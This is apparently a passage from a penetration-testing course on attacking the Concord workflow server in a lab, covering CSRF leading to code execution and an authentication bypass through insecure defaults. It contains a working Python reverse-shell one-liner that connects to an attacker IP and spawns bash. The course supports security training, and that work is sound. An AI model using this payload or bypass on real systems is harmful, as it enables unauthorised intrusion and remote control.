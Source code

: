 6
(Walmart, 2021), https://concord.walmartlabs.com/docs/processes-v1/index.html#dsl ↩︎

7
(Walmart, 2021), https://concord.walmartlabs.com/docs/getting-started/scripting.html ↩︎

8
(Lzone, 2021), https://lzone.de/cheat-sheet/YAML#yaml-heredoc-multiline-strings ↩︎

9
(frohoff, 2021), https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76 ↩︎


```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.200",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

##### Authentication Bypass: Round Two - Insecure Defaults
So far, we've demonstrated the power of CSRF and how it can lead to remote code execution. Due to modern browser updates, CSRF vulnerabilities are becoming more and more obsolete and we must find other authentication bypass vulnerabilities. Luckily for us, Concord is installed and configured with insecure defaults that lead to authentication bypass.

While the Concord version we've been using so far is also vulnerable to the insecure defaults we'll discover, we will focus on a newer version to demonstrate that it is also vulnerable to this approach. Let's download the code to our Kali VM and start the newer version of the application. We'll download the code with rsync, providing the -az flags to download as a compressed archive. We'll also provide the username and host (student@concord), the path to download (/home/student/concord-1.83.0/), and the download location (concord/).

kali@kali:~$ rsync -az student@concord:/home/student/concord-1.83.0/ concord/
student@concord's password: 
Listing 26 - Downloading the Source Code

As the code downloads, we'll ssh into the Concord server, stop the old version, and start the new version. Concord uses Docker1 to run the application, so we can use the docker-compose command to stop and start the application.

First we'll stop the old application with down, providing the appropriate docker-compose file with -f.

kali@kali:~/concord$ ssh student@concord
student@concord's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...

student@concord:~$ sudo docker-compose -f concord-1.43.0/docker-compose.yml down
[sudo] password for student: 
Stopping concord1430_concord-agent_1  ... done
Stopping concord1430_concord-server_1 ... done
Stopping concord1430_concord-dind_1   ... done
Stopping concord1430_concord-db_1     ... done
Removing concord1430_concord-agent_1  ... done
Removing concord1430_concord-server_1 ... done
Removing concord1430_concord-dind_1   ... done
Removing concord1430_concord-db_1     ... done
Removing network concord1430_concord
Listing 27 - Stopping Concord
